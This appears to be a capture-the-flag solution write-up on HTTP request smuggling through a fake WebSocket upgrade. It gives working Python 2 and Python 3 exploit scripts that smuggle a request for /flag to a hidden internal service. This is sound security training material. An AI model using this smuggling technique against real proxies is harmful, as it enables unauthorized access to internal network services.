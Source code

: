 
<p align="center">
<img width="250" src="../static/solution.png">
</p>

 This one is a more difficult variant of HTTP request smuggling. To access the target API and Page in the hidden network we need to write an Exploit. You can use the one below (with Python2...pain or gain)

  ```python
  import socket 

  req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
  Host: localhost:9020
  Sec-WebSocket-Version: 13
  Upgrade: websocket
  Connection: Upgrade

  """.replace('\n', '\r\n')


  req2 = """GET /flag HTTP/1.1
  Host: flask.net:5000

  """.replace('\n', '\r\n')

  def main(netloc):
      host, port = netloc.split(':')

      sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      sock.connect((host, int(port)))

      sock.sendall(req1)
      data = sock.recv(4096)
      print(data)

      sock.sendall(req2)
      data = sock.recv(4096)
      data = data.decode(errors = 'ignore')

      print(data)

      sock.shutdown(socket.SHUT_RDWR)
      sock.close()

  if __name__ == "__main__":
      main('localhost:9020')
```


<p align="center">
<img width="600" src="../static/haha.gif">
<br> Python 2 ... is not dead yet - anyway was just kidding. <br> The Python 3 variant is below:
</p>

```python
#!/usr/bin/env python3
import socket

req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
Host: localhost:9020
Sec-WebSocket-Version: 13
Upgrade: websocket
Connection: Upgrade

""".replace('\n', '\r\n')


req2 = """GET /flag HTTP/1.1
Host: flask.net:5000

""".replace('\n', '\r\n')

def main(uri):
    host, port = uri.split(':')

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((host, int(port)))

        sock.sendall(req1.encode('utf8'))
        data = sock.recv(4096)
        print(data)

        sock.sendall(req2.encode('utf8'))
        data = sock.recv(4096)
        data = data.decode(errors = 'ignore')

        print(data)

        sock.shutdown(socket.SHUT_RDWR)

if __name__ == "__main__":
    main('localhost:9020')
```


